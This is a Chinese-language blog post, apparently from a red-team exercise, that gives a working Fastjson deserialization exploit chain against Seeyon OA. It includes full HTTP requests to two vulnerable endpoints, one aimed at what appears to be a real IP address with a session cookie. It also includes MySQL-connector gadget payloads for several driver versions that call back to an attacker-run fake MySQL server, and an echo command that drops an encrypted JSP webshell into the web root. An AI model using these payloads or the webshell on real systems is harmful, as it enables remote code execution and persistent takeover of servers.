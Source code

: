```yaml
---
layout: post
title: SeeyonFastjson利用链

---
```


## 0x01  前言

前段时间刚结束一场hvv，现场遇到了这样的情况，存在seeyon的fastjson接口但是利用链不行。

后来请教wal613师傅，换了mysql connector的利用链，前提是seeyon的数据库用的是Mysql

## 0x02  接口1

```
POST /seeyon/main.do?method=changeLocale HTTP/1.1
Host: 125.35.108.68:9090
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: https://125.35.108.68:9090/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: https://125.35.108.68:9090/seeyon/main.do
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=9845FB928E346136D2356099A6862683; loginPageURL=
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 71

_json_params={"@type":"java.net.Inet4Address","val":"k6suli.dnslog.cn"}
```

dnslog有回显，但是看了网上执行命令的方法，都是一直失败

参考这篇文章，http://www.hackdig.com/08/hack-439516.htm

https://github.com/fnmsd/MySQL_Fake_Server

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105151149.png)

vps上执行 python server.py，yso看了下这篇文章中师傅改的https://www.anquanke.com/post/id/203086，最后为了打回显，使用了wal613师傅改的yso

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105151234.png)

本地搭建安装的时候有这么个东西，就是后文利用链里面需要的mysql-connector

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105142552.png)

这个要装对应的jdbc驱动，比如mysql-connector-java-5.1.38-bin.jar

## 0x03利用链

### Mysql connector 5.1x

```json
{"@type":"java.lang.AutoCloseable","@type":"com.mysql.jdbc.JDBC4Connection","hostToConn  ectTo":"mysql.host","portToConnectTo":3306,"info":{"user":”user","password":”pass","statementInterceptors":"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor","autoDese  rialize":"true","NUM_HOSTS": "1"},"databaseToConnectTo":”dbname" , "url":""}
```

### Mysql connector 6.0.2 or 6.0.3

```json
{"@type": "java.lang.AutoCloseable" ,"@type":  "com.mysql.cj.jdbc.ha.LoadBalancedMySQLConnection" ,"proxy":{"connectionString":{"url":  "jdbc:mysql://localhost:3306/foo?allowLoadLocalInfile=true"}}}
```

###  Mysql connector 6.x or < 8.0.20

```json
{"@type":"java.lang.AutoCloseable","@type":"com.mysql.cj.jdbc.ha.ReplicationMySQLConnecti  on","proxy":{"@type":"com.mysql.cj.jdbc.ha.LoadBalancedConnectionProxy","connectionUrl":{ "@typ e":"com.mysql.cj.conf.url.ReplicationConnectionUrl" , "masters": [{"host":"mysql.host"}],  "slaves":[],  "properties":{"host":"mysql.host","user":"user","dbname":"dbname","password":"pass","quer  yInterceptors":"com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor","autoDeserial  ize":"true"}}}}
```

## 0x04 实战场景中的回显

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105152116.png)

服务端回显CommonsBeanutils1Tomcat89Echo

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105152204.png)

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105152358.png)

完整Payload

```
_json_params={"@type":"java.lang.AutoCloseable","@type":"com.mysql.jdbc.JDBC4Connection","hostToConnectTo":"x.x.x.x","portToConnectTo":3306,"info":{"user":"yso_CommonsBeanutils1Tomcat89Echo_data","password":"pass","statementInterceptors":"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor","autoDeserialize":"true","NUM_HOSTS": "1"},"databaseToConnectTo":"test","url":"jdbc:mysql://x.x.x.x:3306/test?user=yso_CommonsBeanutils1Tomcat89Echo_data&autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor"}
```

直接写webshell

echo ^<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%^>^<%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%^>^<%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%^> > D:\UFSeeyon\A8\Enterprise\ApacheJetspeed\webapps\ROOT\2.jsp

## 0x05接口２

```
POST /seeyon/m3/loginController.do?method=transLogout HTTP/1.1
Host: x.x.x.x
Content-Length: 494
Cache-Control: max-age=0Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
data: ls
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) 
Chrome/87.0.4280.88 Safari/537.36
Accept: 
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.
8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Cookie: 
JSESSIONID=26FF8158707BB0896A3ACD66EB92DD41; loginPageURL=Connection: close
statisticId={"@type":"java.lang.AutoCloseable","@type":"com.mysql.jdbc.JDBC4Connection","hostTo
ConnectTo":"x.x.x.x","portToConnectTo":3306,"info":{"user":"test","password":"pass","state
mentInterceptors":"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor","autoDeserialize":"
true","NUM_HOSTS":"1"},"databaseToConnectTo":"test","url":"jdbc:mysql://x.x.x.x:3306/test?
user=test%26autoDeserialize=true%26statementInterceptors=com.mysql.jdbc.interceptors.ServerStat
usDiffInterceptor"}
```

利用也是一样的

## 参考资料

https://i.blackhat.com/USA21/Wednesday-Handouts/US-21-Xing-How-I-Used-a-JSON.pdf

http://www.hackdig.com/08/hack-439516.htm

https://www.anquanke.com/post/id/203086

致远OA fastjson mysql connector 利用链  wal613

